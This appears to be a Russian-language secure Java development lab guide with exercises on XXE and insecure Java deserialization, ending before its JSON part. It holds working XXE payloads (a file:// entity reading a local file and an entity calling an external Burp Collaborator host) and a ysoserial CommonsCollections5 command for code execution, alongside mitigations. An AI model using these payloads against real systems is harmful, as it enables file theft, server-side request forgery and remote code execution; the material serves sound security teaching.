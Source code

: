 # Лабораторный практикум "Безопасная разработка ПО: Прикладной курс Java"

## Содержание
1. [Настройка окружения](#environment)
2. [Обработка XML](#xxe)
3. [Сериализация и десерилизация данных](#)

## <a name="environment"></a>Настройка окружения
### Настройка Burp Suite и Firefox
1. Установить Firefox (<https://www.mozilla.org/ru/firefox/>)
2. Скачать Burp Suite Community Edition JAR file
(<https://portswigger.net/burp/communitydownload>)
3. Запустить Burp Suite
 (<https://support.portswigger.net/customer/portal/articles/1783038-Installing_Launching%20Burp.html>)
4. Сконфигурировать Firefox для работы с Burp
(<https://support.portswigger.net/customer/portal/articles/1783055-Installing_Configuring%20your%20Browser.html>)
5. Уберите _localhost_ и _127.0.0.1_ из списка адресов, на которые браузер
заходит без прокси

### Настройка IntelliJ IDEA
1. Скачать и установить IntelliJ IDEA Community Edition
(https://www.jetbrains.com/idea/download/)
2. Открыть в IntelliJ IDEA папку с проектом training_java_security_deep_dive

## <a name="xxe"></a>Задание №1. Обработка XML
### Описание
Одной из наиболее распространенных атак на приложения, обрабатывающие XML,
является внедрение внешних XML сущностей (XML eXternal Entity - XXE).
Эта атака возникает при обработке плохо сконфигурированными парсерами
XML-документов, содержащих ссылки на внешние сущности.
### Подробное руководство
#### Часть 1. Подготовка
1. Откройте проект _lab-01-xxe_
2. Запустите проект. Зайдите на http://localhost:8091/
3. Посмотрите пример счёта (bill_example.xml). _Какую структуру счёта ожидает
приложение?_
4. Загрузите счёт в приложение через форму (http://localhost:8091/bill).
_Как происходит обработка счёта?_
5. Запустите Unit-тесты. Проанализируйте результаты их выполнения.

#### Часть 2. Внедрение внешних сущностей XML
1. _Что такое DTD (Document Type Defenition)?
Как можно определить DTD внутри XML-документа?_
2. Определите XML-сущность в документе счёта. Загрузите сформированный
счёт в приложение. _Что произошло?_
```xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe "XXE Vulnerability Test"> ]>
<bill>
    <product id="28">
        <name>&xxe;</name>
        <quantity>1</quantity>
        <price>1337</price>
    </product>
</bill>
```
3. _Что такое внещние XML-сущности (eXternal XML Entities)?_
4. Создайте файл C:\\TEMP\\secret.txt. Определите внешнюю XML-сущность в
документе так, чтобы можно было прочитать этот файл. Загрузите сформированный
счёт в приложение. _Что произошло?_
```xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE product [ <!ELEMENT product ANY >
    <!ENTITY xxe SYSTEM "file:////C:\\TEMP\\secret.txt"> ]>
<bill>
    <product id="28">
      <name>&xxe;</name>
      <quantity>77</quantity>
      <price>31337</price>
    </product>
</bill>
```
5. _Какие возможности это открывает перед атакующим?_

#### Часть 3. Предотвращение уязвимостей XXE
1. Откройте _BillPrintingController_. Найдите участок кода, отвечающий за
обработку счетов. _Как происходит обработка XML в приложении?_
2. Отключите поддержку DTD (и, соответсвенно, поддержку внешних сущностей).
```Java
DocumentBuilderFactory dbfactory = DocumentBuilderFactory.newInstance();
dbfactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```
3. Загрузите в приложение счёт с XXE. _Что произошло?_
4. Запустите Unit-тесты. Проанализируйте результаты их выполнения. Проверьте,
что счета без внешних сущностей обрабатываются корректно.

### Дополнительные задания
#### Часть 4. Расширенная эксплуатация XXE
1. Верните поддержку DTD в приложении.
2. Определите внешнюю сущность так, чтобы можно было обратиться к внутреннему
серверу.  _Что произошло?_
```XML
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE product [ <!ELEMENT product ANY >
    <!ENTITY xxe SYSTEM "http://gyiv38a8htdpb0m9zfr7w95tkkqaez.burpcollaborator.net"> ]>
<bill>
    <product id="28">
      <name>&xxe;</name>
      <quantity>77</quantity>
      <price>31337</price>
    </product>
</bill>
```
3. _Какие возможности это открывает перед атакующим?_

## <a name="deserialization"></a>Задание №2. Сериализация и десерилизация данных
### Описание

__Избегайте десериализации данных, полученных из недоверенных источников.__

Если такой подход невозможен, следующие меры позволят снизить риск:

* Обеспечьте строго ограничение типа во время десериализации до создания
объекта (см. Java Jackson);
* Внедрите проверку целостности (с использованием закрытого ключа) или шифрование сериализованных объектов для предотвращения атак, связанных с созданием
подложным объектов или изменением данных;
* Изолируйте код, выполняющий десериализацию, и запускайте его в окружении с
минимальными привилегиями;
* Выполняйте логирование и мониторинг всех исключений и ошибок, связанных с
десериализацией.

### Часть 1. Подготовка
1. Откройте проект _lab-02-deserialization_
2. Запустите проект. Зайдите на http://localhost:8091/
3. Перейдите по ссылке _[set your name](http://localhost:8091/hello?name=test)_.
И установите себе имя.
4. Перейдите по ссылке _look at yourself_. _Что передается в
параметрах?_

### Часть 2. Небезопасное использование нативной Java десериализации
1. Посмотрите код HelloController. _В каком формате генерируется параметр
session?_
2. Скопируйте значение параметра __session__ во вкладку __Decoder__. Настройте
декодирование (Decode as __URL__ -> Decode as __Base64__).
3. Скопируйте декодированное значение в первое окно ввода. Настройте кодирование
(Encode as __Base64__ -> Encode as __URL__).
4. Измените имя с _test_ на _vuln_. Скопируйте закодированное значение и
добавьте в URL вместо оригинального параметра. _Что произошло?_
5. Скачайте генератор payload'ов для эксплуатации небезопасной Java Native
десериализации [ysoserial](https://github.com/frohoff/ysoserial/releases).
__ПРЕДУПРЕЖДЕНИЕ: Возможно срабатывание антивирусных средств на данный payload__
6. Сгенерируйте payload для запуска калькулятора через гаджет CommonCollections5
```
java -jar ysoserial-master.jar CommonsCollections5 calc.exe > payload.bin
```
7. Вставьте сгенерированный payload в Burp Suite (Вкладка Repeater -> ПКМ ->
  Paste From File)
8. Закодируйте payload (Выделите всё -> ПКМ -> Send to Decoder ->
  Encode as __Base64__)
9. Отправьте в Repeater запрос к ois (Вкладка Proxy -> выбрать соответсвующий
  запрос -> ПКМ -> Send to Repeater)
10. Замените значение параметра session на закодированный payload. Примените к
вставленному значению URL encode (ПКМ -> Convert selections -> URL ->
  URL-encode key characters)
11. Отправьте запрос, посмотрите логи приложения. _Что произошло?_

### Часть 3. Безопасное использование JSON десериализации
